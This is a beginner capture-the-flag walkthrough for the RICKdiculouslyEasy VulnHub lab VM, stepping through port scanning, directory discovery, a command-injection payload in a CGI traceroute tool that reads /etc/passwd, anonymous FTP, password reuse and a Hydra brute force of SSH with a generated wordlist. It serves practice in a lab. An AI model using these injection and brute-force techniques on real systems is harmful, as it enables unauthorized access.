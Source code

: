 ## RICKdiculouslyEasy 1 VulnHub VM walkthrough

RICKdiculouslyEasy 1 by https://twitter.com/sayli_ambure

Link: https://www.vulnhub.com/entry/rickdiculouslyeasy-1,207/

```
This is a fedora server vm, created with virtualbox.
It is a very simple Rick and Morty themed boot to root.
There are 130 points worth of flags available (each flag has its points recorded with it), you should also get root.
It's designed to be a beginner ctf, if you're new to pen testing, check it out!
```

## Solution

#### 1. Sudo Netdiscover
![](Assets/1.PNG)
> IP address: 192.168.1.10

#### 2. Port scan: Nmap -sC -sV -Pn -A -p- 192.168.1.10
![](Assets/2.PNG)
![](Assets/2.1.PNG)
> 21 -> ftp -> vsftpd 3.0.3 -> anonymous

> 22 -> ssh

> 80 -> Apache httpd 2.4.27

> 9090 -> Cockpit webservice
  
> 13337 -> unknown -> flag (10 pt) => total 10 points
  
> 22222 -> ssh -> OpenSSH 7.5 (protocol 2.0)
  
> 60000 > unknown

#### 3. Nikto: Nikto -h 192.168.1.10
![](Assets/3.PNG)
> Passwords/ directory

> Icons/ directory

#### 4. Browser > http://192.168.1.10/passwords/
![](Assets/04.PNG)
> FLAG.txt

> passwords.html

#### 5. Browser > http://192.168.1.10/passwords/FLAG.txt
![](Assets/4.PNG)
> Got Flag (10 pt) = total points 20

#### 6. Browser > http://192.168.1.10/passwords.html page source code
![](Assets/6.PNG)
> password -> winter

#### 7. Browser > http://192.168.1.10/icons/
![](Assets/7.PNG)
> nothing special other than directory listing

#### 8. Browser > http://192.168.1.10/robots.txt
![](Assets/11.PNG)
> Found /cgi-bin/root_shell.cgi

> Found /cgi-bin/tracertool.cgi

#### 9. Browser > view-source:http://192.168.1.10/cgi-bin/root_shell.cgi
![](Assets/12.PNG)
> Nothing useful

#### 10. Browser > http://192.168.1.10/cgi-bin/tracertool.cgi
![](Assets/13.PNG)
![](Assets/14.PNG)
> Vulnerable to command injection

![](Assets/15.PNG)
> cat command doesn't work. Can use 'more', 'less','head' or 'tail' instead

#### 11. Payload -> ; more /etc/passwd
![](Assets/16.PNG)
> Note users 'morty', 'ricksanchez' and 'summer'

#### 12. Ftp 192.168.1.10 > anonymous:anonymous 
![](Assets/8.PNG)
> logged in

![](Assets/9.PNG)
![](Assets/9.1.PNG)
> ftp://192.168.1.10 -> Flag.txt (10 pt) => total 30 points

#### 13. ssh 192.168.1.10 22
![](Assets/17.PNG)
> Not accessible

#### 14. Browser > http://192.168.1.10:9090
![](Assets/18.PNG)
> Got flag (10 pt) => total 40 points

#### 15. Try winter password for users found in step 11 via SSH on 22222 port
![](Assets/19.PNG)
> Didn't work

![](Assets/20.PNG)
> Worked for user 'Summer'

> Got flag (10 pt) => total 50 points

![](Assets/21.PNG)
> password for unzipping journal.txt.zip is in safe_password.jpg

![](Assets/22.PNG)
> Pull jpg file in host machine

![](Assets/23.PNG)
> Got safe password -> Meeseek

![](Assets/24.PNG)
> Got Flag (20 pt) => total 70 points

![](Assets/25.PNG)
![](Assets/26.PNG)
> Used flag in journal.txt as argument for safe

> Got next flag (20 pt) => total 90 points

> Got Pattern for RickSanchez password

#### 16. Create python script for all possible password combinations using the clue to feed Hydra:
```
def main():
    LETTERS = 'ABCDEFGHIJKLMNOPQRSTUVWXYZ'
    DIGITS = '0123456789'
    BAND_WORDS = ['The', 'Flesh', 'Curtains']
    with open('rickpwd.txt', 'w') as f:
        for letter in LETTERS:
            for digit in DIGITS:
                for word in BAND_WORDS:
                    f.write('{}{}{}\n'.format(letter, digit, word))
        f.flush()
if __name__ == '__main__':
    main()
```
> rickpwd.txt created

#### 17. Hydra -l RickSanchez -P rickpwd.txt 192.168.1.10 ssh -s 22222
![](Assets/27.PNG)
> Password for RickSanchez user > P7Curtains

#### 18. ssh RickSanchez@192.168.1.10 -p 22222
![](Assets/28.PNG)
![](Assets/29.PNG)
> Got root and Flag (30 pt) => total 120 points

#### 19. Analyzing remaining ports: telnet 192.168.1.10 13337
![](Assets/30.PNG)
> Flag already found

#### 20. nc 192.168.1.10 60000
![](Assets/31.PNG)
> Got Flag (10 pt) => total 130 points

> Got all 130/130 points and owned root.
